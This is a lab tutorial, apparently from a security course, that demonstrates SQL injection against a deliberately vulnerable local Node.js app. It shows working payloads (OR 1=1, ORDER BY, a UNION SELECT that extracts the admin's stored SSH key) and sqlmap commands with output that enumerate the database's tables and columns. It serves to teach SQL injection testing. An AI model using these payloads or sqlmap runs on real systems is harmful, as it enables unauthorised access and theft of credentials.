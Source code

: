 # Lab Overview

In this lab, we will demonstrate the use of `sqlmap` (a popular Kali tool for SQLi). We assume you already have a general understanding of SQL injection and want to see how sqlmap can be used to aide in SQLi attacks

## Requirements

This tutorial requires you have Kali Linux and an elementary understanding of SQLi

## Mission

Given an endpoint, http://localhost:3000/authenticate/{username}, as provided by [ta git repooo],
we must find a way to acquire the admin user's secret ssh key. It's stored in the database, but
we don't know where.

If at any point you are stuck and don't want to read ahead in this guide for spoilers, a braver
alternative is to read the source code of the web app and try a whitebox approach to finding
the vulnerabilities.

# How to download / run the app

Run these commands to run the server:

```
sudo apt-get install -y nodejs npm
git clone https://github.com/lilahadeline/sqlmap-poc.git & cd sqlmap-poc
npm install
node index.js
```

# Hunting for SQLi

Before we get started, let's look at how we are supposed to interact with this application
according to the instructions provided in the README:

```
$ curl http://localhost:3000/authenticate/funguy -X POST --data '&password=mypass'  
{"username":"funguy","password":"mypass"}
```

So the username (in this case `funguy`) is provided in the URL, and the password is provided
as the POST body. Great!

First, we'll do a quick manual sanity check to see if any of the parameters are injectable.
Let's try the oldest trick in the book, testing unescaped quotation. Our goal is to snatch
the SSH key of `admin`, but since we don't know what the column name for the SSH key is
in the database, for now we'll just try stealing another user's password via injection

Instead of passing our password, which is `mypass`, we'll try passing `mypass' OR 1=1--`.

```
$ curl http://localhost:3000/authenticate/funguy -X POST --data "&password=mypass' OR 1=1--"
{"username":"funguy","password":"mypass"}
```

The query works, implying that the additional SQL code executed just fine! However, it still gives
us the same user as before. Hmm, let's try reversing the order using SQL's `ORDER BY` keyword:

```
curl http://localhost:3000/authenticate/funguy -X POST --data "&password=mypass' OR 1=1 ORDER BY username ASC--" 
{"username":"admin","password":"iLuv2Code"}
```

Great! So we can get the username and password for admin. But remember, we want the SSH key! We just need to know the column name. If there was only a tool to help us...

# Mapping the DBMS with SQLMap

sqlmap is a tool provided with Kali Linux that helps us find out information about an SQL DBMS and
facilitate SQL injection. Let's try to use it to get the missing column name. First, we need to get the name of the table which contains the missing column with our coveted secret:

```
python3 sqlmap.py -u 'http://localhost:3000/authenticate/admin' --method=POST -p 'password' --data='password=ssd' --tables --level=3 --risk=3
[23:30:51] [INFO] the back-end DBMS is SQLite
web application technology: Express
back-end DBMS: SQLite
[23:30:51] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[1 table]
+-------+
| users |
+-------+
```

Note - to grok the many command line parameters available in SQLMap, check out these docs: https://www.kali.org/tools/sqlmap/

Great, now that we know the table name is `users`, we can find the column names:

```
sqlmap-dev % python3 sqlmap.py -u 'http://localhost:3000/authenticate/admin' --method=POST -p 'password' --data='password=' -T users --columns --level=3 --risk=3
...
[23:37:23] [INFO] fetching columns for table 'users' 
Database: <current>
Table: users
[3 columns]
+----------+------+
| Column   | Type |
+----------+------+
| password | TEXT |
| ssh_key  | TEXT |
| username | TEXT |
+----------+------+
```

# Exploiting

Now that we know that the missing column is called `ssh_key`. Now we can use a simple `UNION` to get the ssh_key
instead of the password via the payload `' UNION SELECT username, ssh_key FROM users WHERE username='admin';--'`, like so:

```
curl http://localhost:3000/authenticate/funguy -X POST --data "&password=' UNION SELECT username, ssh_key FROM users WHERE username='admin';--'"
{"username":"admin","password":"dGhpcyBpcyB0b3RhbGx5IGxlZ2l0IGJybw=="}

